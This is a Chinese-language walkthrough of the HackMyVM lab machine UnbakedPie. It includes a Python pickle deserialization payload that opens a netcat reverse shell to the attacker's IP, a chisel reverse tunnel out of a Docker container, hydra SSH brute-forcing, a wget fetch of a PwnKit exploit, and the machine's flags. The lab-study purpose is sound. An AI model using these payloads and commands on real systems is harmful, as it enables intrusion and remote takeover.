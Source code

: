 ```yaml
---
{"created":"2024-11-28T17:42:52.177+08:00","tags":["HMV","PwnKit提取","容器逃逸","pickle反序列化","端口转发","隧道搭建"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"ch4rm","aliases":null,"系统":"Linux","permalink":"/24-渗透/HMV/32.UnbakedPie/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/32.UnbakedPie#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/32.UnbakedPie#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/32.UnbakedPie#3. python反序列化\|3. python反序列化]]
- [[24-渗透/HMV/32.UnbakedPie#4. docker逃逸&提权\|4. docker逃逸&提权]]
- [[24-渗透/HMV/32.UnbakedPie#5. 端口转发 与SSH爆破\|5. 端口转发 与SSH爆破]]
	- [[24-渗透/HMV/32.UnbakedPie#5.1. [[../../26-工具使用/chisel 使用\|chisel]] 搭建端口转发|5.1. [[26-工具使用/chisel 使用\|chisel]] 搭建端口转发]]
	- [[24-渗透/HMV/32.UnbakedPie#5.2. hydra爆破密码\|5.2. hydra爆破密码]]
- [[24-渗透/HMV/32.UnbakedPie#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=UnbakedPie
**作者** [ch4rm](https://hackmyvm.eu/profile/?user=ch4rm)
**难度** ⭐️⭐️⭐️⭐️⭐️

## 2. 信息收集
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# nmap -sS 192.168.56.27 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 17:53 CST

Nmap scan report for 192.168.56.27
Host is up (0.0010s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
5003/tcp open  filemaker
MAC Address: 08:00:27:10:44:F1 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 959.54 seconds
```

网站
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128182147.png)
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128183615.png)
 
`Server WSGIServer/0.2 CPython/3.8.6`
Python写的

上面有一个搜索框
抓包看看数据
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128202309.png)
`gA` 开头 一眼 [python反序列化](../../20-网安/21-CTF/python/python反序列化.md)

对这个进行解码看一下
```python
import base64
a='gASVCgAAAAAAAACMBjEyMzEyM5Qu'
print(base64.b64decode(a))

输出
b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
```

```python
import pickle

p = b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
d = pickle.loads(p)
print(d)

输出
123123
```

## 3. python反序列化

123123就是我们输入的明文搜索内容

那我们直接构建一个反弹shell的payload

![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128230329.png)


```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/bash 192.168.80.5 1111 ",))
print(base64.b64encode(pickle.dumps(P())))

输出：
gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu
```
> [!warning]
> 这里一定要用Linux生成payload，因为其使用了 `os.system` 这个函数在linux与windows有所不同。所以要与靶机的系统相同。使用Linux生成payload


```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# python payload.py
b'gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu'

```
然后在这个位置随便搜索一下。抓个包替换掉 `search_cookie`
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120622.png)
开启监听 发包 反弹shell
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120703.png)
## 4. docker逃逸&提权
进来后会发现自己是root权限
但其实是在docker里面
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120834.png)
可以在根目录看到有一个 `.dockerenv` 文件。这就是在容器里面的特征之一

上传 [cdk](../../26-工具使用/CDK使用.md) 进行检测

先看一下内核版本
```bash
(remote) root@8b39a559b296:/tmp# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
```

试了好几个发现都不能成功，还是在看看其他利用点吧

看一下历史记录
```bash
history
```
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201135010.png)
这里面可以看到容器进行了一个内网的ssh连接 用户名是 `ramsey` IP是 `172.17.0.1`
这个ip可能就是主机IP 

我们尝试进行ssh连接一下
```bash
(remote) root@8b39a559b296:/tmp# ssh ramsey@172.17.0.1
bash: ssh: command not found
```
发现容器并没有安装ssh。 可能是已经杯卸载了

但是主机是不是开放了 ssh服务这对我们十分重要
在开始进行端口扫描时 就可以发现主机只对外开放了5003端口 并没有22端口
我们看看主机对内开放什么端口
```bash
(remote) root@8b39a559b296:/tmp# nc -znv 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 5003 (?) open
(UNKNOWN) [172.17.0.1] 22 (ssh) open
```
可以看到对内是开放了ssh服务的

## 5. 端口转发 与SSH爆破
此时我们知道了主机 ssh的用户名与ip
**那么我们这时候只需要搭建一个容器与kali的隧道，使得主机可以访问容器内网，然后在kali上进行ssh爆破即可**


### 5.1. [[26-工具使用/chisel 使用\|chisel]] 搭建端口转发
使用kali给容器传一个[[26-工具使用/chisel 使用\|chisel]]

kali开启反向监听
```bash
┌──(root㉿kali)-[/home]
└─# ./chisel server -p 9999 --reverse
2024/12/01 14:07:07 server: Reverse tunnelling enabled
2024/12/01 14:07:07 server: Fingerprint sP2BcLu3iBtJ8s51afwrmDlqpOsmsqVe64WNopPvgQM=
2024/12/01 14:07:07 server: Listening on http://0.0.0.0:9999

```

容器连接并配置反向端口转发
```bash
(remote) root@8b39a559b296:/tmp# ./chisel client 192.168.80.5:9999 R:8888:172.17.0.1:22
2024/12/01 06:09:54 client: Connecting to ws://192.168.80.5:9999
2024/12/01 06:09:54 client: Connected (Latency 799.51µs)

```

这时候访问就可以通过kali本地的 `127.0.0.1:8888` 访问到容器的 `172.17.0.1:22`

### 5.2. hydra爆破密码

```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:8888
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 14:12:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:8888/
[8888][ssh] host: 127.0.0.1   login: ramsey   password: 12345678

```
成功获取到密码 `12345678`

ssh连接获取flag
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# ssh ramsey@127.0.0.1 -p 8888
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
ED25519 key fingerprint is SHA256:B6SoW4WBwsc2n9NynSce9+R0E44T4YkZVRxD5y5Muhc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (ED25519) to the list of known hosts.
ramsey@127.0.0.1's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Sat Oct  3 22:15:57 2020 from 172.17.0.2


ramsey@unbaked:~$ cat user.txt
Unb4ked_W00tw00t

```
## 6. 提权
使用 [[26-工具使用/LZS使用\|LZS]] 进行提权检测
发现可以用Pwnkit提权
直接提权
```bash
bash lzs.sh //提权检测
wget http://192.168.80.5/main.tar.gz
tar -zxvf main.tar.gz
cd CVE-2021-4034-main/
make
./cve-2021-4034
```

> pwncat下载的 `mian` 默认是zip压缩的。但是靶机上是没有 `unzip` 的所以要先在外面解压然后用`tar`打包 再传给靶机
```bash
root@unbaked:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(ramsey)
root@unbaked:/tmp# cat /root/root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: Unb4ked_GOtcha!

```

